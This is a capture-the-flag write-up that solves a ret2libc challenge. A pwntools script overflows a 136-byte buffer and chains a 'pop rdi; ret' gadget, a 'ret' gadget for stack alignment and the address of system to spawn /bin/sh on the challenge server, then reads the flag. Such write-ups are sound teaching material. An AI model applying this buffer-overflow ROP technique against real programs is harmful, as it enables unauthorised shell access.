

# Roptastic shell

<p align="center">

</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the originally saved return address is the address of a gadget with the operations `mov eax, 0; leave; ret;` (you can see this by printing the stack frame before overflowing the buffer). The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```